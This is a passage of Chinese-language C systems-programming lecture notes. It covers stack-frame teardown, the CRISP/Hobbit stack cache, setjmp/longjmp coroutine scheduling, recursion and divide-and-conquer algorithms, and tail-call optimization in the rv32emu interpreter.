- [ ] `mov rsp, rbp`


- [ ] `pop rbp`


此時 rsp 已經指向先前 `call` 推入的返回位址。`ret` 的動作恰好是 `call` 的逆操作：它從 stack 頂端 pop 出該位址，載入 rip，程式便無縫地回到 `main` 繼續執行。整個 stack frame 的狀態也因此回復到 `main` 的 stack frame。

- [ ] ret


回顧前述 `funcA` 與 `funcB` 的反組譯，可注意到一個有趣的差異：`funcA` 有 `sub rsp, 0x8` 這道指令來保留 stack 空間，但 `funcB` 沒有。這是因為編譯器分析出 `funcB` 是 leaf function (不再呼叫其他函式)，既然沒有後續的 `call` 會再推入返回位址，也沒有 `push`/`pop` 等操作，`rsp` 就不需要額外調整。這種最佳化減少不必要的 stack 操作，在頻繁呼叫的小函式中效果尤其顯著。另外也可注意到 `funcB` 的回傳值 (`a + 1`) 是透過 `add eax, 0x1` 直接計算在 `eax` 暫存器中，呼叫端 `funcA` 在 `call funcB` 返回後，不需要任何額外動作就能從 `eax` 取得結果，這正是前述「`ret` 管位址、`rax`/`eax` 管資料」的具體展現。

stack frame 之範圍於 [System V Application Binary Interface AMD64 Architecture Processor Supplement](https://github.com/hjl-tools/x86-psABI/wiki/x86-64-psABI-1.0.pdf) 中定義為：


### 函式呼叫的其他硬體途徑：Hobbit 與 stack cache
前述 x86 的 `call`/`ret` 機制是目前主流做法，但函式呼叫並非只能依靠軟體管理的 stack frame 與通用暫存器配置。有些處理器嘗試把函式呼叫的成本直接由硬體吸收，AT&T 的 [CRISP/Hobbit](https://en.wikipedia.org/wiki/AT%26T_Hobbit) 就是最代表的案例，它幾乎把 1980 年代 Bell Labs 對 UNIX/C 程式型態的觀察，直接刻進處理器架構。CRISP 是 "C-language Reduced Instruction Set Processor" 的簡稱，該處理器的設計者認為大量 C 程式的執行成本，不只來自算術運算本身，更大一部分來自函式呼叫、stack frame 建立與回收，及區域變數的反覆存取。Hobbit 因此不採納典型 RISC 先把一切搬進一大組通用暫存器，再交給編譯器安排的路線，而是反過來把 stack 視為主要工作集。該設計最關鍵的機制是 stack cache。CRISP 以 on-chip registers 透明儲存 active section of the stack，CRISP 時期為 128 bytes，到了 Hobbit 擴充為 256 bytes，且該機制被明確拿來和 SPARC 的 register windows 對照，只是 Hobbit 沒有固定大小視窗的限制。Hobbit 並非移除暫存器，而是把暫存器「藏進」stack 的最上層，讓編譯器與程式都仍以 stack-relative 位址來思考。對 C 語言而言，區域變數、參數、暫存值與下一層呼叫的引數區，往往都落在同一個硬體加速區域內。

相較於經典的 load-store RISC，CRISP/Hobbit 更像是 C 量身調整過的 memory-to-memory machine，且多數計算指令同時提供 two-address 與 two-and-a-half address 兩種形式。所謂 two-and-a-half address，本質是二個運算元來自選定的記憶體位置，而結果寫到 stack top。這正好對應 C 程式裡最常見的模式：`x = a + b`, `y = y + 1`, `p = q + k` 這類運算，編譯器不必先為每個值安排顯式的暫存器載入與寫回。RISC 假設「硬體簡單，編譯器聰明」，所以主體工作落於 register allocation、instruction scheduling 與各種暫存器 liveness 分析。Hobbit 則認定 C 的大部分活躍資料本來就圍繞 stack frame，於是由硬體去保護 stack 的熱區，這種由硬體管理 stack working set 在早期編譯器最佳化限制很大時，確實能降低編譯器負擔。不過，一旦編譯器成熟，硬體代勞的收益就會逐漸縮小。

CRISP/Hobbit 試圖將 C 的主要執行現象 (函式呼叫、區域變數、activation record 與 stack-relative addressing) 重新定義為處理器本身的主要操作，該做法在程式碼密度、函式呼叫成本與編譯器複雜度上都曾有相當吸引力，但隨著編譯器、管線化前端與亂序執行技術成熟，市場最後站在另一邊：讓硬體保持較簡單的 load-store 抽象，把語言層的複雜度交回軟體。
> 延伸閱讀: [AT&T's CRISP Hobbits](https://thechipletter.substack.com/p/at-and-ts-crisp-hobbits)

---

## 從函式呼叫到協同式多工
前面各節追蹤函式呼叫的完整生命週期：`call` 推入返回位址、prologue 建立 stack frame、epilogue 拆除 stack frame、`ret` 彈出返回位址跳回呼叫端。整套機制看似只為「呼叫→返回」而生，但若我們能在任意時刻儲存整個執行環境 (暫存器、stack pointer、program counter)，並在稍後從另一個執行路徑恢復，函式呼叫就不再侷限於單一控制流，而成為多工處理的基礎建設。

### setjmp 與 longjmp：跨越函式的非區域跳躍
C 標準提供 [setjmp](https://man7.org/linux/man-pages/man3/setjmp.3.html) 和 [longjmp](https://man7.org/linux/man-pages/man3/longjmp.3.html) 兩個介面，實作 non-local jump (非區域跳躍)。一般的 `goto` 只能在同一函式內跳躍，`setjmp`/`longjmp` 則能跨越多層函式呼叫，直接回到先前標記的位置：

```c
#include <setjmp.h>
#include <stdio.h>

jmp_buf env;

void deep_call(void) {
    /* 跳回 setjmp 的位置，第二個參數作為 setjmp 的回傳值 */
    longjmp(env, 42);
}

int main(void) {
    if (setjmp(env) == 0) {
        /* 首次呼叫 setjmp 回傳 0 */
        deep_call();
    } else {
        /* 從 longjmp 跳回 */
        printf("returned from longjmp\n");
    }
    return 0;
}
```

C 標準 (C99 §7.13.1.1) 限制 `setjmp` 只能出現在特定語境中：作為 `if`/`switch` 的完整控制運算式、與整數常數比較的運算元、或作為運算式述句的完整運算式。將 `setjmp` 的回傳值指派變數 (如 `int val = setjmp(env)`) 屬於未定義行為，因為標準以語法層級限定了 `setjmp` 的合法出現位置，不在允許清單內的用法一律為未定義。

`setjmp(env)` 將目前的執行環境存入 `jmp_buf` 結構體，首次呼叫回傳 0。C 標準僅規定 `jmp_buf` 是不透明型別，儲存足以恢復執行環境的資訊；在主流平台的實作中，這通常包含 stack pointer、program counter 及 callee-saved registers，但實際內容取決於平台與 ABI。之後任何地方呼叫 `longjmp(env, v)`，程式會恢復 `jmp_buf` 中儲存的狀態，使執行流回到 `setjmp` 的位置，此時 `setjmp` 回傳非零值 `v`。

這與前述 stack frame 的討論直接相關：在 x86-64 平台上，`setjmp` 儲存的內容包含建立 stack frame 時涉及的暫存器 (如 rbp、rsp 等)，`longjmp` 則繞過正常的 epilogue/`ret` 流程，直接覆寫暫存器以「跳回」先前的 frame。

C 標準對此有一項重要約束：在包含 `setjmp` 呼叫的函式中，若其自動變數 (automatic variable) 在 `setjmp` 之後被修改且未宣告為 `volatile`，則 `longjmp` 跳回後這些變數的值為不確定 (indeterminate)。這是因為編譯器可能將區域變數放在暫存器中，而 `longjmp` 恢復的暫存器值是 `setjmp` 當時的快照 (snapshot)，不反映後續的修改。此限制僅適用於包含 `setjmp` 的那個函式的區域變數，不影響其他函式或全域變數。

### 將 setjmp/longjmp 改造為協同式排程器
[coroutine](https://en.wikipedia.org/wiki/Coroutine) (協同程式) 的概念由 Melvin Conway 於 1958 年提出，是「可暫停與恢復執行的程式元件」。一般的函式呼叫是 caller-callee 的主從關係，控制流從 caller 進入 callee、從 callee 返回 caller，不會中途讓出。Coroutine 打破這種關係：多個 coroutine 之間是對等的，各自在適當時機主動讓出 (yield) 控制權給排程器，由排程器決定下一個執行的 coroutine。

將函式呼叫從原本的面貌: [ [source](https://www.csl.mtu.edu/cs4411.ck/www/NOTES/non-local-goto/coroutine.html) ]


轉換成以下:


這恰好可以用 `setjmp`/`longjmp` 實作：每個 coroutine 用 `setjmp` 儲存自己的執行環境，讓出時用 `longjmp` 跳到排程器，排程器再用 `longjmp` 跳到下一個 coroutine 儲存的環境。以下藉由 [concurrent-programs/coro](https://github.com/sysprog21/concurrent-programs/blob/master/coro/coro.c) 的實作為例，逐步解說這個機制。

- [ ] 描述任務的結構體
```c
struct task {
    jmp_buf env;            /* 儲存該 task 的執行環境 */
    struct list_head list;  /* 串接到排程佇列 */
    char task_name[10];
    int n;
    int i;
};
```

每個 `task` 攜帶一份 `jmp_buf`，對應前面 stack 小節討論的暫存器快照。此處 `task_name` 固定為 10 bytes，而 task 函式中以 `strcpy` 複製名稱，缺乏邊界檢查；若名稱超過 9 個字元便會發生 buffer overflow，實務上應改用 `snprintf` 或 `strncpy`。`list_head` 採用 [Linux 核心風格的環狀雙向鏈結串列](https://hackmd.io/@sysprog/c-linked-list)，將所有就緒的 task 串成一個排程佇列 (run queue)。全域變數 `tasklist` 是佇列的頭節點，`sched` 是排程器自身的 `jmp_buf`。

- [ ] 實作排程器

```c
static jmp_buf sched;

void schedule(void)
{
    static int i;

    setjmp(sched);              /* ① 標記排程器的返回點 */

    while (ntasks-- > 0) {
        struct arg arg = args[i];
        tasks[i++](&arg);       /* ② 首次啟動各 task */
        printf("Never reached\n");
    }

    task_switch();              /* ③ 切換到佇列中的下一個 task */
}
```

`schedule()` 的運作分三個階段：
* 階段 ①：`setjmp(sched)` 儲存排程器的執行環境，首次回傳 0，進入 `while` 迴圈
* 階段 ②：`tasks[i++](&arg)` 呼叫各 task 函式 (如 `task0`、`task1`)。但 task 函式內部會呼叫 `longjmp(sched, 1)` 跳回排程器，所以 `printf("Never reached\n")` 永遠不會執行——控制流透過 `longjmp` 繞過正常的函式返回路徑
* 階段 ③：所有 task 啟動完畢後，`task_switch()` 從佇列取出第一個 task 並跳躍過去

- [ ] 任務的生命週期

以 `task0` 為例：

```c
void task0(void *arg)
{
    struct task *task = malloc(sizeof(struct task));
    strcpy(task->task_name, ((struct arg *) arg)->task_name);
    task->n = ((struct arg *) arg)->n;
    task->i = ((struct arg *) arg)->i;
    INIT_LIST_HEAD(&task->list);

    printf("%s: n = %d\n", task->task_name, task->n);

    if (setjmp(task->env) == 0) {   /* ④ 儲存 task 的執行環境 */
        task_add(task);              /* 加入排程佇列 */
        longjmp(sched, 1);          /* ⑤ 跳回排程器 */
    }

    task = cur_task;                 /* ⑥ 從 longjmp 跳回此處 */

    for (; task->i < task->n; task->i += 2) {
        if (setjmp(task->env) == 0) {   /* ⑦ 儲存目前進度 */
            long long res = fib_sequence(task->i);
            printf("%s fib(%d) = %lld\n", task->task_name, task->i, res);
            task_add(task);
            task_switch();              /* ⑧ 讓出控制權 */
        }
        task = cur_task;                /* ⑨ 恢復後從此處繼續 */
        printf("%s: resume\n", task->task_name);
    }

    printf("%s: complete\n", task->task_name);
    free(task);
    longjmp(sched, 1);                 /* ⑩ 回到排程器 */
}
```

上述函式的控制流違反一般函式「呼叫→返回」的對稱性，逐步拆解：
* 步驟 ④⑤：`setjmp` 首次回傳 0，task 將自己加入佇列，隨即 `longjmp(sched, 1)` 跳回 `schedule()` 中的 `setjmp(sched)` 位置。此時 stack pointer 被恢復到 `schedule()` 的 frame，`task0` 原本的 stack frame 在邏輯上已被拋棄。當 `schedule()` 的 `while` 迴圈繼續呼叫下一個 task 時，新的 stack frame 會覆寫 `task0` 先前使用的 stack 記憶體。因此 `task->env` 中雖儲存了暫存器快照，但對應的 stack 內容已不復存在——這是嚴格意義上的未定義行為 (C 標準禁止 `longjmp` 跳回已結束的函式呼叫)。coro.c 之所以能運作，是因為所有 task 函式的 stack 深度相近，且刻意不在 yield 前後依賴區域變數
* 步驟 ⑥：當排程器透過 `task_switch()` 呼叫 `longjmp(task->env, 1)` 跳回時，`setjmp` 回傳 1，跳過 `if` 區塊。緊接著執行 `task = cur_task;` 這行至關重要，因為原本的區域變數 `task` 位於已被覆寫的 stack 記憶體中，必須從全域變數 `cur_task` (存放在 heap 上的 `struct task` 指標) 重新取得正確的 task 狀態
* 步驟 ⑦⑧⑨：迴圈每次迭代中，task 先用 `setjmp` 儲存目前進度，執行一輪計算後讓出控制權 (`task_switch`)。排程器選擇下個 task 執行，等輪回後再恢復此 task 的環境，從 `setjmp` 回傳非零值處繼續。同樣地，恢復後的第一件事就是 `task = cur_task;` 以從 heap 取回狀態
* 步驟 ⑩：迴圈結束後，`longjmp(sched, 1)` 將控制權交回排程器。task 不經由 `ret` 返回

- [ ] 排程佇列與 task 切換

```c
static void task_add(struct task *task)
{
    list_add_tail(&task->list, &tasklist);
}

static void task_switch()
{
    if (!list_empty(&tasklist)) {
        struct task *t = list_first_entry(&tasklist, struct task, list);
        list_del(&t->list);
        cur_task = t;
        longjmp(t->env, 1);
    }
}
```

`task_add` 將 task 附加到佇列尾端，`task_switch` 從佇列頭端取出下一個 task 並用 `longjmp` 跳轉過去。這構成 round-robin 排程：每個 task 執行一輪後放到佇列尾端，排程器取出頭端的 task 執行，達到公平輪替的效果。

#### 執行流程圖解
假設有三個 task (T0, T1, T2)，排程過程如下：

```
schedule()
  │
  ├─ setjmp(sched)  ← 排程器返回點
  │
  ├─ task0(&arg0)   ── setjmp(T0.env) ── task_add(T0) ── longjmp(sched) ─┐
  │                                                                      │
  ├──────────────────────── setjmp(sched) 回傳 1 ←────────────────────────┘
  │
  ├─ task0(&arg1)   ── setjmp(T1.env) ── task_add(T1) ── longjmp(sched) ─┐
  │                                                                      │
  ├──────────────────────── setjmp(sched) 回傳 1 ←────────────────────────┘
  │
  ├─ task1(&arg2)   ── setjmp(T2.env) ── task_add(T2) ── longjmp(sched) ─┐
  │                                                                      │
  ├──────────────────────── setjmp(sched) 回傳 1 ←────────────────────────┘
  │
  ├─ task_switch()  ── 取出 T0 ── longjmp(T0.env) ──→ T0 開始計算
  │                                                      │
  │                    T0: fib(0) ── task_add(T0) ── task_switch()
  │                                                      │
  │                    取出 T1 ── longjmp(T1.env) ──→ T1 開始計算
  │                                                      │
  │                    T1: fib(1) ── task_add(T1) ── task_switch()
  │                                                      │
  │                    取出 T2 ── longjmp(T2.env) ──→ T2 開始計算
  │                    ...
```

### 與作業系統排程的比較

作業系統的 context switch 在核心模式下儲存與恢復完整的 CPU 狀態 (包含所有暫存器、分頁表指標、浮點暫存器等)，涉及系統呼叫的開銷。相較之下，`setjmp`/`longjmp` 實作的 coroutine 有幾點本質差異：
- [ ] 使用者空間完成
    整個排程過程不涉及系統呼叫，不進入核心模式。`longjmp` 僅恢復 `jmp_buf` 中儲存的執行環境 (在典型實作中為 callee-saved registers 和 stack pointer)，比核心的 context switch 輕量得多。須留意此範例僅適用於單一執行緒；POSIX 規定不得在不同執行緒間共用 `jmp_buf`。
- [ ] 協同式 (cooperative) 而非搶占式 (preemptive)
    task 必須主動呼叫 `task_switch()` 讓出控制權。若某個 task 陷入無窮迴圈，其他 task 永遠得不到執行機會。作業系統的排程器則透過硬體計時器中斷強制切換。
- [ ] 共用同一個 stack 與未定義行為
    `coro.c` 中所有 task 共用同一條 call stack。當某個 task 透過 `longjmp` 讓出後，排程器或其他 task 的函式呼叫會立即覆寫該 task 原本的 stack frame，使 `jmp_buf` 中儲存的 stack pointer 指向已被覆寫的記憶體。嚴格來說，`longjmp` 跳回一個已不存在的 stack frame 是未定義行為。coro.c 透過將所有 task 狀態放在 heap (以 `malloc` 配置的 `struct task`) 並在每次恢復後以 `task = cur_task;` 從全域變數重新取得狀態，迴避對 stack 區域變數的依賴。這是教學性質的示範，展示 `setjmp`/`longjmp` 的能力與極限。
    
成熟的 coroutine 函式庫 (如 [minicoro](https://github.com/edubart/minicoro) 和 [ucontext](https://pubs.opengroup.org/onlinepubs/7908799/xsh/ucontext.h.html)) 會為每個 coroutine 配置獨立的 stack，在 context switch 時明確切換 stack pointer，從根本上避免這個問題。

藉由 `setjmp`/`longjmp` 打破「呼叫→返回」的對稱性，函式呼叫的底層機制最終延伸為使用者空間多工處理的基礎。理解 calling convention 和 stack 操作不只是為了寫出正確的 C 程式或防禦 buffer overflow，更是理解現代並行系統運作原理的基石。
> 延伸閱讀: [並行程式設計: 排程器原理](https://hackmd.io/@sysprog/concurrency-sched)

---

## 遞迴呼叫
*「[遞迴 (recurse) 只應天上有，凡人該當用迴圈 (iterate)](http://coder.aqualuna.me/2011/07/to-iterate-is-human-to-recurse-divine.html)」*


A loop within a loop;
A pointer to a pointer;
A recursion within a recursion;

### 聖經本蘊藏的密碼
《[The C Programming Language](https://en.wikipedia.org/wiki/The_C_Programming_Language)》一書之所以經典，不僅在於這是 C 語言發明者的著作，更在於不到三百頁卻涵蓋 C 語言的精髓，佐以大量範例，循序漸進。更奇妙的是，連索引頁 (index) 也能隱藏學問。


上圖是《The C Programming Language》的第 269 頁，是索引頁面的一部分，注意到 recursion (遞迴)一字出現在書本的第 86, 139, 141, 182, 202, 以及 269 頁，後者恰好就是 recursion 出現的頁碼，符合遞迴的定義！

[cursive](https://www.dictionary.com/browse/cursive) vs. [recursive](https://www.dictionary.com/browse/recursive)

> [source](https://twitter.com/memecrashes/status/1446551837495201797/photo/1)

### 遞迴程式沒有你想像中的慢
得益於現代的編譯器最佳化技術，遞迴的程式不見得會比迭代 (iterative) 的版本來得慢。以找最大公因數 (Greatest Common Divisor，縮寫 GCD) 來說，典型的演算法為輾轉相除法，又稱歐幾里得演算法 (Euclidean algorithm)，考慮以下二種實作

- [ ] 遞迴的實作
```c
unsigned gcd_rec(unsigned a, unsigned b) {
    if (!b) return a;
    return gcd_rec(b, a % b);
}
```

- [ ] 迭代的實作
```c
unsigned gcd_itr(unsigned a, unsigned b) {
    while (b) {
        unsigned tmp = b;
        b = a % b;
        a = tmp;
    }
    return a;
}
```

分析 clang/llvm 編譯的輸出 (參數 `-S -O2`)，不難發現二者轉譯出的 inner loop 的組合語言完全一樣:
```
LBB0_2:
    movl    %edx, %ecx
    xorl    %edx, %edx
    divl    %ecx
    testl   %edx, %edx
    movl    %ecx, %eax
    jne     LBB0_2
```

顯然遞迴版本的原始程式碼簡潔，而且對應於輾轉相除法的數學定義。

### 遞迴讓你直覺地表示特定模式
觀賞影片 [Binary, Hanoi and Sierpinski - Part I](https://www.youtube.com/watch?v=2SUvWfNJSsM) 和 [Binary, Hanoi, and Sierpinski - Part II](https://www.youtube.com/watch?v=bdMfjfT0lKk) (記得開啟 YouTube 的字幕)。


[Tail Call Optimization: The Musical](https://youtu.be/-PX0BV9hGZY) (2019 年) 也是有趣的短片 ([HackerNews 討論](https://news.ycombinator.com/item?id=26470532))。

電腦程式中，副程式直接或間接呼叫自己就稱為遞迴。遞迴算不上演算法，只是程式流程控制的一種。程式的執行流程只有二種：循序與分支 (迴圈)，以及呼叫副程式 (遞迴)。迴圈是一種特別的分支，而遞迴是一種特別的副程式呼叫。

不少初學者以及教初學者的人把遞迴當成是複雜的演算法，其實單純的遞迴只是另一種函數定義方式而已，在程式指令上非常簡單。初學者為什麼覺得遞迴很難？因為他跟人類的思考模式不同，電腦的二種思維模式：窮舉與遞迴 (enumeration and recursion)，窮舉是我們熟悉的而遞迴是陌生的，而遞迴為何重要？因為這是思考好的演算法的起點，例如分治與動態規劃。

分治：一刀均分左右，兩邊各自遞迴，返回重逢之日，真相合併之時。

分治 (Divide and Conquer) 是運用遞迴的特性來設計演算法的策略。對於求某問題在輸入 S 的解 P(S) 時，我們先將 S 分割成二個子集合 S~1~ 與 S~2~，分別求其解 P(S~1~) 與 P(S~2~)，然後再將其合併得到最後的解 P(S)。要如何計算 P(S~1~) 與 P(S~2~)？因為是相同問題較小的輸入，所以用遞迴來做即可。分治不一定要分成二個，也可以分成多個，但多數都是分成二個。那為什麼要均分？

從非常簡單例子來看：在一個陣列中如何找到最大值。迴圈的思考模式是：從左往右一個一個看，永遠記錄著目前看到的最大值。
```c
m = a[0];
for (i = 1 ; i < n; i++)
    m = max(m, a[i]);
```

分治思考模式：如果我們把陣列在i的位置分成左右兩段 $a[0, i-1]$ 與 $a[i, n]$，分別求最大值，再返回二者較大者。切在哪裡？如果切在最後一個的位置，因為右邊只剩一個無須遞迴，那麼會是
```c
int find_m1(int n, int current_max) {
    if (n < 0) return current_max;
    return find_m1(n - 1, max(current_max, a[n]));
}
```

這是個尾端遞迴 ([Tail Recursion](https://en.wikipedia.org/wiki/Tail_call)，或 tail call)，在有編譯最佳化的狀況下可跑很快，其實可發現程式的行為就是上面那個迴圈的版本。若我們將程式切在中點:
```c
int find_m2(int left, int right) { // 範圍=[left, right) 慣用左閉右開區間
    if (right - left == 1) return a[left];
    int mid = (left + right) / 2 ;
    return max(find_m2(left, mid), find_m2(mid, right));
}
```

效率一樣是線性時間，會不會遞迴到 stack overflow？放心，若有200 層遞迴陣列可跑到 2^200^，地球早已毀滅。

再來看個有趣的問題：假設我們有個程式比賽的排名清單，部分選手是女生、部分是男生 (為了簡化討論，不考慮 LGBTQ)，我們想要計算有多少對女男的配對是男生排在女生前面的。若以 0 與 1 分別代表女生與男生，那麼我們有一個 0/1 序列 $a[n]$，要計算
```
Ans = | {(a[i], a[j]) | i < j 且 a[i] > a[j]} |
```

迴圈的思考方式：對於每個女生，計算排在其前面的男生數，然後把它全部加起來就是答案。
```c
for (i = 0, ans = 0 ; i < n ;i++) {
    if (a[i]==0) {
        cnt = num of 1 before a[i];
        ans += cnt;
    }
}
```

效率取決於如何計算 `cnt`。若每次利用一個迴圈來重算，時間會跑到 $O(n^2)$，如果利用類似字首和 (prefix-sum) 的概念，只需要線性時間。
```c
for (i = 0, cnt = 0, ans = 0 ; i <n ;i++) {
    if (a[i] == 0)
        ans += cnt;
    else cnt++;
}
```

接下來看分治思考模式。如果我們把序列在 i 處分成前後兩段 $a[0, i-1]$ 與 $a[i, n]$，任何一個要找的 (1, 0) 數對只可能有三個可能：都在左邊、都在右邊、或是一左一右。所以我們可左右分別遞迴求，對於一左一右的情形，我們若知道左邊有 x 個 1 以及右邊有 y 個 0，那答案就有 xy 個。遞迴終止條件是什麼？剩一個就不必找下去。
```c
int dc(int left, int right) {  // 範圍=[left,right) 慣用左閉右開區間
    if (right - left < 2) return 0;
    int mid = (left + right) / 2; // 均勻分割
    int w = dc(left, mid) + dc(mid, right);
    計算 x = 左邊幾個 1, y = 右邊幾個 0
    return w + x * y;
}
```

時間複雜度？假設把範圍內的資料重新看一遍去計算 0 與 1 的數量，那需要線性時間，整個程式的時間變成 $T(n) = 2T(n/2) + O(n)$，結果是 $O(n\log{n})$，不好。比迴圈的方法差，原因是因為我們計算 0/1 的數量時重複計算。我們讓遞迴也回傳 0 與 1 的個數，效率便能改善，用 Python 改寫：
```python
def dc(left, right):
     if right - left == 1:
         if ar[left]==0: return 0, 1, 0 # 逆序數，0的數量，1的數量
         return 0, 0, 1
    mid = (left + right) // 2  #整數除法
    w1, y1, x1 = dc(left,mid)
    w2, y2, x2 = dc(mid,right)
    return w1 + w2 + x1 * y2, y1 + y2, x1 + x2
```

時間效率是 $T(n) = 2T(n/2) + O(1)$，所以結果是 $O(n)$。

倘若分治可以做的工作，迴圈也可達成，何必學分治？第一，複雜的問題不容易用迴圈的思考找到答案；第二，有些問題迴圈很難做到跟分治一樣的效率。上述男女對的問題其實是逆序數對問題的弱化版本：給一個數字序列，計算有多少逆序對，也就是
```
| {(a[i], a[j]) | i < j 且 a[i] > a[j]} |
```

迴圈的思考模式一樣去算每個數字前方有多少大於它的數，直接做又退化為 $O(n^2)$，有沒有辦法像上面男女對問題一樣，紀錄一些簡單的資料來減少計算量？或許想用二分搜尋，但問題是需要重排序，除非使用較複雜的資料結構，否則沒有簡單的辦法可以來加速。回來看分治。基本上的想法是從中間切割成兩段，各自遞迴計算逆序數並且各自排序好，排序的目的是讓合併時，對於每個左邊的元素可以直接運用二分搜尋去算右邊有幾個小於它。
```c
LL sol(int le, int ri) {  // 區間 = [le,ri)
    if (ri - le == 1) return 0;
    int mid = (ri + le) / 2;
    LL w = sol(le, mid) + sol(mid, ri);
    LL t = 0;
    for (int i = le; i < mid; i++)
        t += lower_bound(ar + mid, ar + ri, ar[i]) - (ar + mid);
    sort(ar + le, ar + ri);
    return w + t;
}
```

時間複雜度？即使我們直接把二個排好序的序列再整個重排，$T(n) = 2T(n/2) + O(n\log{n})$，結果是 $O(n\log_2{n})$，十萬筆資料不需要一秒，比迴圈的方法好得多。為什麼說直接二分搜尋與直接重新排序？對於二個排好序的東西要合併可用線性時間。至於二分搜尋的方式？沿路那麼多個二分搜尋可維護二個註標一路向右即可，因此不需要複雜的資料結構即可做到 $O(n\log{n})$，該方法就是 merge sort，跟 quick sort 一樣常拿來當作分治的範例。另外，如果 merge sort 的分割方式是 $[left, right-1]$ 和 $[right-1, right]$，右邊只留一個，就退化成 insertion sort 的尾端遞迴。

註：計算遞迴的時間需要解遞迴函數，這是有點複雜的事情。好在大多數常見的有公式解。

Tail recursion 是遞迴的一種特殊形式，副程式只有在最後一個動作才呼叫自己。以演算法的角度來說，recursion tree 全部是一脈單傳，所以時間複雜度是線性個該副程式的時間。不過遞迴是需要系統使用 stack 來儲存某些資料，於是還是會有 stack overflow 的問題。但是從編譯器的角度來說，因為最後一個動作才呼叫遞迴，所以很多 stack 資料是沒用的，所以是可以被最佳化的。基本上，最佳化以後就不會有時間與空間效率的問題。

注意: Python 沒有 tail recursion 最佳化，而且 stack 深度不到 1000。C 要開編譯器開啟最佳化才會做 tail recursion 最佳化。

延伸閱讀: [On Recursion, Continuations and Trampolines](https://eli.thegreenplace.net/2017/on-recursion-continuations-and-trampolines/)

### 針對尾端遞迴的編譯器最佳化
編譯器對 tail recursion 的調整通常只在開啟最佳化時較有機會施行，且是否套用由編譯器自行決定。對於直譯器 (interpreter) 這類以指令分派 (dispatch) 為主體迴圈的程式，若 tail call 未被最佳化，每次分派都會推入新的 stack frame，幾千道指令後即 stack overflow。Clang 提供 [`__attribute__((musttail))`](https://clang.llvm.org/docs/AttributeReference.html) 屬性 (GCC 自 14 版起亦支援)，強制編譯器對指定的 `return` 呼叫施行 TCO，否則產生編譯錯誤。

Josh Haberman 在〈[Parsing Protobuf at 2+GB/s: How I Learned To Love Tail Calls in C](https://blog.reverberate.org/2021/04/21/musttail-efficient-interpreters.html)〉一文中，以 [protobuf](https://github.com/protocolbuffers/protobuf) 剖析器為案例，闡述 `musttail` 相較於傳統 switch-case 或 computed goto 分派 （對照〈[goto 和流程控制篇](https://hackmd.io/@sysprog/c-control-flow)〉) 的優勢：

- [ ] 暫存器留存
    每個 handler 是獨立函式，編譯器可將關鍵值保留在暫存器中，跨越整段快速路徑 (fast path) 不必外溢 (spill) 至 stack。
- [ ] 快慢路徑隔離
    錯誤處理與罕見分支放在獨立函式中，不會干擾快速路徑的暫存器配置與分支預測。
- [ ] 接近手寫組合語言的品質
    簡單操作編譯後，沒有 prologue、沒有 epilogue、沒有暫存器外溢，完全不使用 stack。

其基本模式如下：
```c
#define MUSTTAIL __attribute__((musttail))

const char *operation(PARSE_PARAMS) {
    // 快速路徑處理
    if (UNLIKELY(error_condition)) {
        MUSTTAIL return fallback(PARSE_ARGS);
    }
    MUSTTAIL return dispatch(PARSE_ARGS);
}
```

關鍵限制：任何非 tail call 的函式呼叫都會迫使編譯器建立 stack frame 並將暫存器外溢至記憶體，效能會「災難性地崩落」(catastrophic degradation)。因此開發者必須嚴格確保所有函式呼叫不是 inline 就是 tail call。為進一步壓低呼叫開銷，Clang 另提供 `__attribute__((preserve_none))` calling convention，在支援的目標平台上最小化通用暫存器的 callee-saved 保留開銷，降低 tail call 鏈中暫存器傳遞的成本。

RISC-V 指令集模擬器 [rv32emu](https://github.com/sysprog21/rv32emu) 正是運用 `musttail` 與 `preserve_none` 建構高速直譯器的典型案例。其關鍵設計將每道 RISC-V 指令實作為獨立的 handler 函式，透過 tail call 鏈串接執行，完全避免傳統的 dispatch loop。

首先定義巨集 ([src/common.h](https://github.com/sysprog21/rv32emu/blob/master/src/common.h))：
```c
/* 即使未開啟最佳化，也強制 TCO */
#if defined(__has_attribute) && __has_attribute(musttail)
#define MUST_TAIL __attribute__((musttail))
#else
#define MUST_TAIL
#endif

/* 最小化暫存器保存開銷 */
#if defined(__has_attribute) && __has_attribute(preserve_none) && \
    !defined(__APPLE__)
#define PRESERVE_NONE __attribute__((preserve_none))
#else
#define PRESERVE_NONE
#endif
```

每道指令的 handler 透過函式指標連結 ([src/decode.h](https://github.com/sysprog21/rv32emu/blob/master/src/decode.h))：
```c
typedef struct rv_insn {
    /* ... */
    struct rv_insn *next;
    PRESERVE_NONE bool (*impl)(riscv_t *,
                               const struct rv_insn *,
                               uint64_t,
                               uint32_t);
    /* ... */
} rv_insn_t;
```

`next` 指向同一 basic block 中的下一道指令，`impl` 是該指令的 handler 函式指標 (由 `dispatch_table[opcode]` 填入)。所有指令模擬透過這兩個成員構成 threaded dispatch：每個 handler 執行完畢後，經由 `impl` 函式指標 tail call 至下一個 handler，由編譯器經 TCO 重用同一 stack frame。

核心分派巨集 `RVOP` ([src/emulate.c](https://github.com/sysprog21/rv32emu/blob/master/src/emulate.c)) 定義每道指令的 handler 骨架 (部分改寫)：
```c
#define RVOP(inst, code)                                        \
    static PRESERVE_NONE bool do_##inst(riscv_t *rv,            \
                                        const rv_insn_t *ir,    \
                                        uint64_t cycle,         \
                                        uint32_t PC)            \
    {                                                           \
        cycle++;                                                \
        code;                  /* 指令的實際模擬邏輯 */            \
        PC += __rv_insn_##inst##_len;                           \
        if (unlikely(RVOP_NO_NEXT(ir)))                         \
            goto end_op;                                        \
        const rv_insn_t *next = ir->next;                       \
        MUST_TAIL return next->impl(rv, next, cycle, PC);       \
    end_op:                                                     \
        rv->csr_cycle = cycle;                                  \
        rv->PC = PC;                                            \
        return true;                                            \
    }
```

值得注意的設計要點：
1. 所有 handler 共享相同的函式簽章 `(riscv_t *, const rv_insn_t *, uint64_t, uint32_t)`，確保 tail call 的參數佈局一致
2. `MUST_TAIL return next->impl(...)` 透過函式指標進行 indirect tail call，將控制流交給下一道指令的 handler，不會增長 stack
3. `RVOP_NO_NEXT` 在 basic block 末端、debug 模式或 trap 發生時觸發，跳出當前 block 內的 tail call 鏈；若啟用 block chaining，`end_op` 仍可能透過 `ir->branch_taken` 繼續 tail call 至下一個 basic block
4. `PRESERVE_NONE` 縮減 handler 之間的通用暫存器保留開銷，降低 tail call 鏈中的暫存器傳遞成本

